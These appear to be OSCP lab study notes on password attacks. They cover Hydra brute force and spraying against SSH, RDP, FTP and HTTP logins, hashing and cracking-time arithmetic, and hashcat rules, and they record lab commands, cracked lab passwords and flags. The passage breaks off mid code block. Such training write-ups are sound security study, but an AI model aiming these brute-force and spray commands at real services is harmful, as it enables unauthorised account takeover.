










# Module 16: Password Attacks

## Tags
#OSCP #Module16 #PasswordAttacks #Hydra #Rockyou #PasswordCracking #Hashcat #JohnTheRipper #BruteForce #DictionaryAttack #PasswordSpraying #NetworkServices #SSH #RDP #HTTPBruteForce #Hashing #Encryption #Symmetric #Asymmetric #MD5 #SHA1 #SHA256 #bcrypt #NTLM #NetNTLMv2 #Mimikatz #SAM #LSASS #PassTheHash #PtH #Responder #NTLMRelay #KeePass #PasswordManager #SSHPrivateKey #CredentialGuard #VBS #HyperV #VSM #SSPI #Windows #Wordlist #RuleBasedAttack #Keyspace #HashRate #RainbowTable #SYSKEY #SeDebugPrivilege #impacket

---

## **Why This Module Matters**

Getting credentials is often how penetration tests actually move forward. Not with a flashy zero-day, but with a password that was reused, cracked from a database dump, or captured off the wire.

This module covers the full offensive credential lifecycle: attacking exposed services directly (brute force and spraying), cracking hashes once they've been obtained, and then using those credentials or hashes to move laterally. The Windows-specific material (NTLM, Mimikatz, Responder, relay attacks) is foundational for almost every real-world Windows engagement.

The module also introduces Credential Guard, which matters because modern enterprise Windows deployments are increasingly enabling it by default, so knowing the bypass technique is worth understanding now rather than encountering it cold in a lab.

Password attacks are low-noise compared to exploitation when done carefully, and the payoff (valid credentials) is often higher value than a shell on one box. These are bread-and-butter OSCP skills.

---

## 16.1. Attacking Network Service Logins

### 16.1.1. SSH

**Hydra** is the standard tool for dictionary attacks against network services. It supports a wide range of protocols (SSH, RDP, FTP, HTTP, SMB, and more) and is pre-installed on Kali. The `rockyou.txt` wordlist (14 million+ entries) lives at `/usr/share/wordlists/rockyou.txt.gz` and needs decompressing before first use.

The difference between a brute-force attack (every possible character combination) and a dictionary attack (only words from a wordlist) matters for time planning. Against SSH, pure brute force is rarely feasible -- dictionary attacks with rockyou.txt are the practical starting point.

```bash
# Decompress rockyou.txt (first-time only)
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz

# Verify target is running SSH on the expected port first
sudo nmap -sV -p 2222 <target-ip>

# Dictionary attack: single username, rockyou wordlist, non-standard port
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://<target-ip>
```

Key Hydra flags:
| Flag | Meaning |
|---|---|
| `-l <name>` | Single username (lowercase L) |
| `-L <file>` | Username list (uppercase L) |
| `-p <pass>` | Single password |
| `-P <file>` | Password list |
| `-s <port>` | Non-standard port |
| `-t <n>` | Number of parallel tasks |

> 🔍 **Worth remembering generally:** the username format tells you things. If a discovered account is `george`, the org may use first names as usernames throughout. That's information gathering that feeds directly into spray attacks later.

> 📸 Screenshot: Hydra output showing `[2222][ssh] host: <target> login: george password: <cracked>` -- the single line that confirms a valid credential

**Lab status: ✅ Completed**

**VM #1 (192.168.158.201) — dictionary attack against SSH port 2222:**

```
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.158.201
# [2222][ssh] host: 192.168.158.201   login: george   password: chocolate
# Completed in ~8 seconds

ssh george@192.168.158.201 -p 2222
# Password: chocolate

george@32ee16154367:~$ cat flag.txt
OS{3eb5b3d6448c356e238bde05730d05d2}
```

#### Tags: #SSH #Hydra #DictionaryAttack #Rockyou #Module16

---

### 16.1.2. RDP

**Password spraying** inverts the usual dictionary attack: instead of many passwords against one username, you try one password against many usernames. This is the right approach when you have a credential (from a leak database, a previous compromise, or found in plaintext) and want to find where it works across an environment.

Spraying reduces the risk of account lockout because each individual account only sees one failed attempt. A traditional brute force hammering one account will trigger lockout policies; a spray typically won't.

```bash
# Append specific usernames to the names wordlist before spraying
echo -e "daniel\njustin" | sudo tee -a /usr/share/wordlists/dirb/others/names.txt

# Password spray: username list, single password, RDP target
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://<target-ip>
```

> 🔧 **Technique:** RDP limits Hydra to 4 parallel tasks (versus 16 for SSH). This is a protocol-level restriction, not a Hydra issue -- don't try to override it with `-t 16`, it won't improve speed against RDP.

> 🔍 **Worth remembering generally:** dictionary attacks generate significant log noise: failed authentication events, potential IDS alerts, and possible account lockout. Before spraying broadly, check whether the target environment enforces lockout policies. Locking out production accounts during a pentest is a serious problem. Three failed logins is a common lockout threshold -- a single-password spray stays safely under it per account.

> 🔍 **Worth remembering generally:** `ScatteredSecrets` and similar credential leak databases can provide real plaintext passwords from past breaches. These are legitimate pentest tools when used with client authorisation, but check the legal status of each service carefully. `WeLeakInfo` was seized by the FBI. Review terms of service before using any of these.

> 📸 Screenshot: Hydra finding valid credentials from the spray (`[3389][rdp] host: <target> login: daniel password: SuperS3cure1337#`)

**Lab status: ✅ Completed**

**VM #1 (192.168.158.202) — password spray against RDP:**

```
# Create two-name username list
echo -e "justin\ndaniel" > ~/rdp_users.txt

# Spray single password against both accounts
hydra -L ~/rdp_users.txt -p "SuperS3cure1337#" rdp://192.168.158.202
# [3389][rdp] host: 192.168.158.202   login: justin   password: SuperS3cure1337#
# [3389][rdp] host: 192.168.158.202   login: daniel   password: SuperS3cure1337#
# Both accounts shared the same password

xfreerdp /u:daniel /p:"SuperS3cure1337#" /v:192.168.158.202
# Flag in notepad note on daniel's Desktop:
OS{3d86fb3f4468a7d6b535ad9848297d1f}
```

**VM #1 part 2 — enumerate and attack FTP as itadmin:**

```
# Nmap reveals port 21 (FileZilla ftpd 1.4.1) alongside RDP, SMB, WinRM
sudo nmap -sV 192.168.158.202

# Dictionary attack against FTP
hydra -l itadmin -P /usr/share/wordlists/rockyou.txt ftp://192.168.158.202
# [21][ftp] host: 192.168.158.202   login: itadmin   password: hellokitty
# Found in ~5 seconds

ftp 192.168.158.202
# Name: itadmin | Password: hellokitty
# ftp> get flag.txt
OS{f0e8a15903b5d1da0b2f228e477fb3f3}
```

#### Tags: #RDP #Hydra #PasswordSpraying #AccountLockout #Module16

---

### 16.1.3. HTTP POST Login Form

Attacking HTTP login forms requires more setup than SSH or RDP. Hydra needs two things it can't figure out on its own: the exact POST request body (field names vary per application) and a string from the response that indicates a failed login.



The Hydra `http-post-form` argument takes three colon-separated fields:
1. Path to the login form (e.g. `/index.php`)
2. POST body with `^USER^` and `^PASS^` placeholders
3. Failed login indicator (a string that appears in failed response)

```bash
# Full Hydra HTTP POST form attack
hydra -l user -P /usr/share/wordlists/rockyou.txt <target-ip> \
  http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```

> 🔧 **Technique:** choose the failure indicator carefully. Avoid generic words like "password" or "username" that might also appear in a successful response (e.g. a welcome page saying "Your username is..."). Shorten the string to the unique part. "Login failed. Invalid" is safer than the full error message.

> 🔍 **Worth remembering generally:** WAFs and `fail2ban` are common protections against HTTP brute force. fail2ban watches for repeated failed login events and can block an IP after just 3-5 attempts. Many web services run without either, making this a very effective attack vector. Know which defensive technology might be present before starting.

> 📸 Screenshot: Burp intercepting the POST request showing the request body fields to extract for the Hydra command

> 📸 Screenshot: Hydra output finding the valid password, then the browser confirming a successful login to TinyFileManager

> 🔗 **RevShells** -- once inside a web file manager, you'll often want to escalate to a shell: [revshells.com](https://revshells.com)

**Lab status: ✅ Completed (VM #1)**

**VM #1 (192.168.158.201) — TinyFileManager, user account:**

```
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.158.201 \
  http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid" -t 4 -I
# [80][http-post-form] host: 192.168.158.201   login: user   password: 121212
# Found in ~2 minutes

# Log in to http://192.168.158.201 as user/121212
# Navigate to install.txt → view
OS{75ec55ec1fc994abe2ff90dd09528c72}
```

> 🔧 **Hard-won lesson:** Three things that break http-post-form attacks silently:
> 1. **Wrong username** -- the module uses `user`, not `admin`. TinyFileManager has two accounts. Check listing 4 exactly.
> 2. **CSS class as failure indicator** -- `fm-login-page` appears in inline CSS on every page including the file manager. Hydra marks every attempt as failure and runs forever.
> 3. **Session cookie not carried** -- the "Login failed. Invalid" string only appears when Hydra follows the redirect WITH the session cookie. A plain `curl -L` test won't show it because curl doesn't persist the session cookie between the POST and the GET. Hydra handles this automatically.
> The working indicator (`Login failed. Invalid`) is a PHP session flash message -- it only shows on the redirected login page when the session cookie from the failed POST is carried over to the subsequent GET. Test failure indicators with Burp or a browser, not bare curl.

**VM #2 (192.168.158.201) — HTTP basic authentication, admin account:**

```
# 401 Unauthorized with WWW-Authenticate: Basic realm="Restricted Content"
curl -si http://192.168.158.201/ | head -5

# HTTP basic auth: no form, no redirect, no failure string needed
# Single request per attempt -- much faster than http-post-form
hydra -l admin -P /usr/share/wordlists/rockyou.txt http-get://192.168.158.201/
# [80][http-get] host: 192.168.158.201   login: admin   password: 789456
# Found in ~2 seconds (16 threads, no redirect overhead)

# Answer: 789456
```

> 🔍 **Worth remembering generally:** HTTP basic auth (`http-get`) is the fastest Hydra target -- no redirect, no session, no body parsing. Just Authorization header → 200 or 401. Identify it from the `WWW-Authenticate: Basic` header in the 401 response. HTTP form attacks (`http-post-form`) are 10-50x slower per attempt due to redirect handling and session cookies.

> 🎬 **[ippsec.rocks: "hydra http"](https://ippsec.rocks/?#hydra%20http)** -- search "http-post-form" for login form brute force walkthroughs; also search "burp intruder" as an alternative approach used in many boxes

#### Tags: #HTTPBruteForce #Hydra #BurpSuite #TinyFileManager #POSTForm #Fail2Ban #Module16

---

## 16.2. Password Cracking Fundamentals

### 16.2.1. Introduction to Encryption, Hashes and Cracking

**Encryption vs hashing** is a foundational distinction.

**Encryption** is two-way: data is scrambled with a key and can be unscrambled with the same key (symmetric) or the matching key (asymmetric).
- **Symmetric:** same key for encrypt and decrypt (AES). Both parties must share the key, which creates key exchange risk.
- **Asymmetric:** key pair (public + private). Encrypt with recipient's public key, only their private key decrypts. RSA is the canonical example. The public key can be shared freely because it can only encrypt, not decrypt.

**Hashing** is one-way: the hash function converts any input into a fixed-length digest. Trivial to compute forward, computationally prohibitive to reverse. Identical inputs always produce identical outputs. Even a one-character difference produces a completely different hash.



**Password cracking** is the process of determining a plaintext from its hash by repeatedly hashing candidate plaintexts and comparing results. It does not reverse the hash function; it finds a matching input.

Two main tools:
- **Hashcat:** primarily GPU-based, faster for most algorithms. Requires OpenCL or CUDA for GPU mode. Use `--force` on Kali VMs without GPUs.
- **John the Ripper (JtR):** primarily CPU-based, also supports GPUs. Handles some algorithms and file formats that Hashcat doesn't (and vice versa). Worth knowing both.

**Calculating cracking time:**

```
cracking_time = keyspace / hash_rate
keyspace = charset_size ^ password_length
```

```bash
# Count characters in a charset
echo -n "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789" | wc -c
# → 62

# Calculate keyspace for 5-char password
python3 -c "print(62**5)"
# → 916,132,832

# Benchmark hash rates on your hardware
hashcat -b
```

CPU vs GPU benchmark comparison from module examples (RTX 3090 vs i9-10885H):

| Algorithm | GPU (RTX 3090) | CPU (i9-10885H) | GPU speedup |
|---|---|---|---|
| MD5 | 68,185.1 MH/s | 450.8 MH/s | ~151x |
| SHA1 | 21,528.2 MH/s | 298.3 MH/s | ~72x |
| SHA-256 | 9,276.3 MH/s | 134.2 MH/s | ~69x |

```bash
# Cracking time for 5-char password, SHA-256, GPU (seconds)
python3 -c "print(916132832 / 9276300000)"
# → 0.099 seconds

# Cracking time for 8-char password, SHA-256, GPU
python3 -c "print(62**8 / 9276300000)"
# → 23,537 seconds ≈ 6.5 hours

# Cracking time for 10-char password, SHA-256, GPU
python3 -c "print(62**10 / 9276300000)"
# → 90,477,816 seconds ≈ 2.8 years
```

> 🔍 **Worth remembering generally:** increasing password length increases cracking time **exponentially** (each additional character multiplies the keyspace by the charset size). Increasing complexity (charset size) only increases it **polynomially**. This is why a 12-character password made of only lowercase letters is much stronger than an 8-character password with every special character. Password policies mandating length are more effective than those mandating complexity.

> 📸 Screenshot: `hashcat -b` benchmark output showing MH/s rates -- reference for your specific hardware rather than the module's example values

**Lab status: ✅ Completed** (Q1-Q4 pure-recall):

| Question | Answer |
|---|---|
| True or false: In symmetric encryption, one key is used for both encryption and decryption | **True** -- symmetric uses the same key for both operations (AES is the example) |
| True or false: In asymmetric encryption, we can share the private key freely | **False** -- the *public* key is shared freely; the private key must remain secret. Sharing the private key breaks the entire model |
| True or false: A cryptographic hash function is a one-way function | **True** -- proper hash algorithm implementations make it computationally prohibitive to recover plaintext from the hash |
| Use MD5 GPU hash rate (68,185.1 MH/s) and charset of all lower + upper case English letters (52 chars), password length 8. Cracking time in full minutes? | **13 minutes** (52^8 = 53,459,728,531,456; / 68,185,100,000 = 784 seconds; / 60 = 13.07 → **13 full minutes**) |

#### Tags: #Encryption #Hashing #Hashcat #JohnTheRipper #Keyspace #HashRate #MD5 #SHA256 #GPU #CPU #Module16

---

### 16.2.2. Mutating Wordlists

Most passwords in rockyou.txt don't satisfy common password policies (uppercase, number, special character). Rule-based attacks automate mutation of wordlist entries to produce variants that would.

Hashcat rules use **rule functions**: single characters or short sequences that define a transformation applied to each password.

Common rule functions:

| Function | Effect | Example |
|---|---|---|
| `$X` | Append character X | `$1` → password**1** |
| `^X` | Prepend character X | `^!` → **!**password |
| `c` | Capitalise first, lowercase rest | `c` → **P**assword |
| `u` | All uppercase | `u` → PASSWORD |
| `l` | All lowercase | `l` → password |
| `r` | Reverse the string | `r` → drowssap |
| `d` | Duplicate the string | `d` → passwordpassword |

**Rules on the same line** are applied consecutively to each password (all transformations, one output per input):

```
$1 c $!    →  password → Password1!
```

**Rules on separate lines** are treated as independent rules (each line produces a separate output for each input):

```
$1         →  password → password1
c          →  password → Password
```

```bash
# Create a rule file
echo '$1 c $!' > demo.rule

# Debug mode -- show mutations without cracking (--stdout)
hashcat -r demo.rule --stdout demo.txt

# Crack an MD5 hash with a rule-based attack
hashcat -m 0 crackme.txt /usr/share/wordlists/rockyou.txt -r demo3.rule --force

# Pre-built Hashcat rule files
ls /usr/share/hashcat/rules/
